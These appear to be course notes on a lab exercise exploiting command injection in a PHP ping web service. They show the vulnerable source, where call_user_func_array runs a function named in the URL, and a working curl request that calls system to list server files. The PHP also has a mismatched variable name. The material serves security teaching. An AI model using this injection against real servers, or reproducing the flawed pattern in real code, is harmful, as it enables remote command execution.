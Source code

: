 * Among the most critical vulnerabilities in web services
* They allow system command execution directly on the back-end server
* If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own
* Suppose we are assessing such a connectivity-checking service residing in `http://<TARGET IP>:3003/ping-server.php/ping`
* Suppose we have also been provided with the source code of the service

**Note**: The web service we are about to assess does not follow the web service architectural designs/approaches we covered. It is quite close to a normal web service, though, as it provides its functionality in a programmatic way, and different clients can use it for connectivity-checking purposes.

```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

* A function called _ping_ is defined, which takes two arguments _host_url_ip_ and _packets_
* The request should look similar to the following. `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`
* To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request

```sh
$ sudo tcpdump -i tun0 icmp
 tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
 listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
 11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
 11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
 11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
 11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
 11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
```

* The code also checks if the _packets_'s value is more than 4, and it does that via an array
* So if we issue a request such as `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333`, we're going to get an _Only 1-4 packets!_ error
* A variable called _cmd_ is then created, which forms the ping command to be executed
* Two values are "parsed", _packets_ and _host_url_
* [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php) is used to escape the _host_url_'s value
* According to PHP's function reference, *escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument*
* _This function should be used to escape individual arguments to shell functions coming from user input_
* _The shell functions include exec(), system() shell_exec() and the backtick operator_
* If the _host_url_'s value was not escaped, the below could happen

![](1.png)

* The command specified by the _cmd_ parameter is executed with the help of the _shell_exec()_ PHP function
* If the request method is GET, an existing function can be called with the help of [call_user_func_array()](https://www.php.net/manual/en/function.call-user-func-array.php)
* The _call_user_func_array()_ function is a special way to call an existing PHP function
* It takes a function to call as its first parameter, then takes an array of parameters as its second parameter
* This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows `http://<TARGET IP>:3003/ping-server.php/system/ls`
* Test the command injection vulnerability

```sh
$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```